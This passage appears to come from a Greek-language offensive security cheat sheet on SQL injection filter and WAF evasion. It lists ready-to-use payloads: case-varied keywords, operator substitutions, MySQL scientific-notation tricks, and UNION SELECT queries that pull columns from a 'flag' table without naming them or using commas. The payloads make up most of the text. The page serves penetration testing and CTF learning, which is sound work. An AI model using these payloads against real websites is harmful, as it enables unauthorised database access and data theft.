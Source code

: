 Blacklist χρησιμοποιώντας λέξεις-κλειδιά - bypass χρησιμοποιώντας κεφαλαία/μικρά γράμματα
```sql
?id=1 AND 1=1#
?id=1 AnD 1=1#
?id=1 aNd 1=1#
```
Blacklist χρησιμοποιώντας λέξεις-κλειδιά χωρίς διάκριση πεζών-κεφαλαίων - παράκαμψη χρησιμοποιώντας έναν ισοδύναμο τελεστή
```
AND   -> && -> %26%26
OR    -> || -> %7C%7C
=     -> LIKE,REGEXP,RLIKE, not < and not >
> X   -> not between 0 and X
WHERE -> HAVING --> LIMIT X,1 -> group_concat(CASE(table_schema)When(database())Then(table_name)END) -> group_concat(if(table_schema=database(),table_name,null))
```
### Scientific Notation WAF bypass

Μπορείτε να βρείτε μια πιο λεπτομερή εξήγηση αυτού του κόλπου στο [gosecure blog](https://www.gosecure.net/blog/2021/10/19/a-scientific-notation-bug-in-mysql-left-aws-waf-clients-vulnerable-to-sql-injection/).\
Βασικά, μπορείτε να χρησιμοποιήσετε την επιστημονική σημειογραφία με απροσδόκητους τρόπους για να παρακάμψετε το WAF:
```
-1' or 1.e(1) or '1'='1
-1' or 1337.1337e1 or '1'='1
' or 1.e('')=
```
### Bypass Column Names Restriction

Πρώτα απ' όλα, παρατηρήστε ότι αν το **αρχικό ερώτημα και ο πίνακας από τον οποίο θέλετε να εξαγάγετε τη σημαία έχουν τον ίδιο αριθμό στηλών** μπορείτε απλά να κάνετε: `0 UNION SELECT * FROM flag`

Είναι δυνατόν να **έχετε πρόσβαση στην τρίτη στήλη ενός πίνακα χωρίς να χρησιμοποιήσετε το όνομά της** χρησιμοποιώντας ένα ερώτημα όπως το εξής: `SELECT F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;`, οπότε σε μια sqlinjection αυτό θα φαίνεται έτσι:
```bash
# This is an example with 3 columns that will extract the column number 3
-1 UNION SELECT 0, 0, 0, F.3 FROM (SELECT 1, 2, 3 UNION SELECT * FROM demo)F;
```
Ή χρησιμοποιώντας ένα **comma bypass**:
```bash
# In this case, it's extracting the third value from a 4 values table and returning 3 values in the "union select"
-1 union select * from (select 1)a join (select 2)b join (select F.3 from (select * from (select 1)q join (select 2)w join (select 3)e join (select 4)r union select * from flag limit 1 offset 5)F)c
```
Αυτή η τεχνική ελήφθη από [https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/](https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/)

### Εργαλεία προτάσεων παράκαμψης WAF

{% embed url="https://github.com/m4ll0k/Atlas" %}
